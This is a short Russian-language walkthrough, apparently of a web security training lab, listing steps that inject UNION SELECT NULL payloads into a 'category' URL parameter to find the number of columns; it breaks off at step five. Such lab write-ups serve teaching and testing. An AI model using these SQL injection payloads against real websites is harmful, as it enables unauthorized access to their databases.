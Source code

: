1) Заходим на сайт задания
2) Переходим в категорию Accessories
3) Изменяем запрос на category=Accessories'+UNION+SELECT+NULL--
4) Получаем ошибку сервера, добавляем еще один NULL в запрос: category=Accessories'+UNION+SELECT+NULL,NULL--
5) Снова получаем ошибку и добавляем еще один NULL: category=Accessories'+UNION+SELECT+NULL,NULL,NULL--